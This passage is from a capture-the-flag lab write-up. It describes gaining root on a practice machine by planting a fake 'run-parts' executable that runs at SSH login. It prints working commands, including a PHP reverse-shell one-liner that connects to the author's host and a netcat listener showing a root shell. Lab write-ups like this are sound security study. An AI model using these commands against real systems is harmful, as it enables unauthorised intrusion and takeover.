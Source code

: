 This is good! The `run-parts` executable is being called without the full path. We should be able to create another `run-parts` file in `/usr/local/bin` with our code and execute it by SSHing into the machine. Started with a PoC to create a file in `/tmp` to see if this worked.

```none
jkr@writeup:~$ echo -e '#!/bin/bash\n\ntouch /tmp/meow' > /usr/local/bin/run-parts
jkr@writeup:~$ cat /usr/local/bin/run-parts
#!/bin/bash

touch /tmp/meow
jkr@writeup:~$ chmod +x /usr/local/bin/run-parts
```

The PoC just creates the `/tmp/meow` file. After SSHing in, we can see the file created with the `root` user as the owner. Make sure to set the file executable! This tripped me up, and had no idea why it wasn't running!

```none
jkr@writeup:~$ ls -lisa /tmp | grep meow
13205    0 -rw-r--r--  1 root root       0 Aug  3 17:27 meow
```

Now we know the process works, we can get a shell as `root`. There are many ways to achieve this, but I decided to get a reverse shell as the root user using a PHP reverse shell.

```none
jkr@writeup:~$ echo $'php -r \'$sock=fsockopen("10.10.14.127",9001);exec("/bin/sh -i <&3 >&3 2>&3");\'' > /usr/local/bin/run-parts
jkr@writeup:~$ chmod +x /usr/local/bin/run-parts
```

Did the same method of creating a `run-parts` file, and making it executable, and started a netcat listener on port 9001. Then logged in as the `jkr` user over SSH and got the reverse shell back to my system.

```none
└─$ nc -lvnp 9001                                       
listening on [any] 9001 ...
connect to [10.10.14.127] from (UNKNOWN) [10.10.10.138] 36006
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# wc -c /root/root.txt
33 /root/root.txt
```

One thing I noted here - the reverse shell hangs the login process, so might not be useful in specific scenarios. After watching the video by ippsec, he created an SSH key and add the public key to `root`s authorised key files - a nice idea.

## Post Exploitation

This box was a little strange as I avoided lots of tools and techniques that might have triggered DoS protection. After finishing the box, I had a poke around to see what protection they had enabled. Long story short - it was `fail2ban` and was configured for SSH and HTTP. The contents of the `fail2ban` configuration file are below. The max retries for HTTP 404's were 30, with a ban time of 120.
